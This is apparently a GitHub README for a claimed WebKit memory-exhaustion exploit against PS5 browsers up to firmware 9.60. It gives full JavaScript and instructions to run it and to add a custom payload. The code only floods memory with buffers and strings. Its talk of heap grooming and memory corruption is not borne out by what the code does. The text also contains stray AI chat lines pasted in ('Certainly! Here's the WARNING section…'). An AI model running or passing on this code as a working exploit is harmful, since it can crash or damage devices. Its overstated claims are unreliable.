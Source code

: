 # Overflow WebKit Memory Leak PoC

## Link
Follow this link for the exploit: [Overflow WebKit Memory Leak PoC](https://seregonwar.github.io/Overflow/)

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I've been developing. It is functional in its current form but still requires full exploitation. Below, you'll find the JavaScript code that outlines how the PoC operates, along with an explanation of each step.

## How it Works
The code operates in five key steps:

1. **Heap Initialization**: Memory is allocated in a controlled manner to prepare for the attack.
2. **Heap Grooming**: The memory is manipulated to create gaps for exploit insertion.
3. **Memory Exhaustion**: The system's memory resources are continuously allocated and cleared to exhaust available memory.
4. **Payload Execution**: The exploit's payload is executed, triggering memory corruption.
5. **Exploit Execution**: All steps are run sequentially to trigger memory exhaustion and ultimately crash the system.

## Code

```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track the number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap

    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

// Execute the exploit
performExploit();
```

## Instructions

1. Copy and execute the above code on an exploitable PS5 (works up to version 9.60). This may not be applicable on PS4.
2. Remember, this is a PoC, and it should be used strictly for educational purposes.
3. Further testing and analysis are required to fully understand this vulnerability.
4. If needed, insert your custom payload inside the `payload` function.

## Disclaimer
This PoC is for educational purposes only. The author assumes no responsibility for any misuse of this code. 
Certainly! Here’s the **WARNING** section translated into English and formatted with markdown:

## **WARNING**

Running this Proof of Concept (PoC) comes with **serious risks** to the target device, including but not limited to:

1. **Device Bricking**: Incorrect or unmodified execution of this code could result in an **irreversible brick** of the system, rendering it completely unusable. This means the device might stop functioning entirely, with no chance of recovery.

2. **Data Loss**: This PoC exploits memory vulnerabilities, which could lead to file corruption or the loss of important data.

3. **Incompatibility**: The exploit may not work on all firmware versions or devices. Running it on an unsupported system version could cause unexpected and damaging consequences.

4. **Hardware Damage**: Continuous memory exhaustion and allocation could stress the hardware resources, potentially causing long-term physical damage to the device.

5. **Legal Risks**: Unauthorized use of exploits or vulnerabilities on devices you do not own, or without explicit consent, could violate local laws or licensing agreements.

**DO NOT** run this code on critical devices or on devices that you are not prepared to lose. Modify the PoC and fully understand its workings before executing it to minimize risks. **The author is not responsible for any damage caused by using this code.**

Let me know if you need further adjustments!
## Credit
The credits for the structure on which this tool is based were written by the aforementioned idebty, the credits are therefore assigned to him for having found the flaw, I have only expanded the operation!:
**Author**: [idebty](https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09)  
